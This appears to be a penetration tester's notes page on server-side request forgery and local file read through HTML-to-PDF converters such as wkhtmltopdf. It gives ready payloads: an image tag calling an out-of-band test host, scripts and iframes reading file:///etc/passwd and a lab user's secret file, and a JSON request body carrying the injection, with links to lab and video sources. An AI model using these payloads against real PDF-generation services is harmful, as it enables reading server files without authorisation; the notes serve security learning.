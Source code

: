 > **Note:** The `<div>` tag defines a division or a section in an HTML document. The
> 
> tag is used as a container for HTML elements - which is then styled with CSS. [z3nsh3ll explain HTML DIV demarcation and SPAN different ways to style the elements.](https://youtu.be/5djtMMciBlw)

```html
<div><p>Report Heading by <img src="https://OASTIFY.COM/test.png"></p>
```

> Identify file download HTML-to-PDF convert function on target is vulnerable.

```js
<script>
	document.write('<iframe src=file:///etc/passwd></iframe>');
</script>
```

> Libraries used to convert HTML files to PDF documents are vulnerable to server-side request forgery (SSRF).

[PortSwigger Research SSRF](https://portswigger.net/daily-swig/ssrf)

> Sample code below can be injected on vulnerable implementation of HTML to PDF converter such as `wkhtmltopdf` to read local file, resulting in [SSRF to Local File Read Exploit in Hassan's blog](http://hassankhanyusufzai.com/SSRF-to-LFI/).

> Thehackerish showing wkHTMLtoPDF exploitation using [root-me.org - Gemini-Pentest-v1](https://www.root-me.org/) CTF lab in the video [Pentest SSRF Ep4](https://youtu.be/Prqt3N5QU2Q?t=345) by editing the name of the admin profile with HTML content it is then generated server side by including remote or local files.

![[Pasted image 20250219163530.png]]

```html
<html>
 <body>
  <script>
   x = new XMLHttpRequest;
   x.onload = function() {
    document.write(this.responseText)
   };
   x.open("GET", "file:///home/carlos/secret");
   x.send();
  </script>
 </body>
</html>
```

> JSON POST request body containing the HTMLtoPDF formatted payload to read local file.

```json
{
 "tableHtml":"<div><p>SSRF in HTMLtoPDF</p><iframe src='file:///home/carlos/secret' height='500' width='500'>"
}
```


  [param]: html